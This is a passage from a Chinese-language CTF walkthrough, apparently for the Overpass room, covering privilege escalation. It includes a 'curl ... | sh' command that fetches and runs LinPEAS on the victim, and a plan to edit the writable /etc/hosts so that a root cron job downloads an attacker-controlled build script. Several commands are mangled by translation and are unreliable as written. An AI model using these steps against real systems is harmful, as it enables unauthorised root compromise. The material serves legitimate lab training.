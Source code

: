 现在好多了！我们进去了。

## [权限提升]

当你接近目标时，这是一种非常奇妙的感觉！现在，是特权升级的时候了。最好的开始是环顾四周，找到任何吸引人的东西。

Jame 的主目录呢？尽管事实上用户的旗帜是坐在那里… Ooops！还有 ***todo.txt*** ，肯定能讲点有趣的。

> 我鼓励您仔细阅读待办事项列表中的每一点，并找到进一步开发的线索。这不仅仅是特权升级的线索。看看你能做什么。

在进行 PE 之前，我通常会运行 ***sudo -l*** 命令，查找设置了 SUID 位的文件(***find/-perm 4000 2>/dev/null***)。另一个很好的选择是运行 [*LinPEAS*](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) 脚本，它将为我们做枚举！之后我们需要做的就是识别潜在的 PE 向量，并对其采取行动。

1.  在您的 ***linpeas.sh*** 脚本所在的 localhost 目录下运行 *SimpleHTTPServer* 模块—***python-m simple http server 80***
2.  在受害者端，使用 curl 来检索脚本并运行它***curl-X GET***[***http://IP-addr/linpeas . sh***](http://ip-addr/linpeas.sh)***| sh***

我知道产量很大。但是分析它给你真正的知识和经验。

在花了足够的时间研究输出之后，我希望您仔细看看两件事情。**首先是**，我们有一个对 *crontab* 文件的读取权限。里面有一条线…

![](img/5e3c4798058297dceb82b0d10f8f68b0.png)

这一行告诉我们，系统以 root 权限定期执行位于*overlands . thm*网站上的 bash 脚本。你可能注意到了 *buildscript.sh* 是开发者建议从/downloads 页面下载的“构建脚本”。

**第二个**，你有没有注意到 ***/etc/hosts*** 出现在“*我拥有的有趣的可写文件……”*类别下，这意味着我们可以更改该文件的内容。

你明白我的意思了吗？没错。我们可以将分配给 overpass.thm 条目的 IP 地址改为我们自己的，这样服务器就可以从我们的机器上检索 buildscript.sh 脚本。该脚本的内容将完全取决于你。

![](img/ae2e70a1d7ed51cb84ee44b82bd7924a.png)

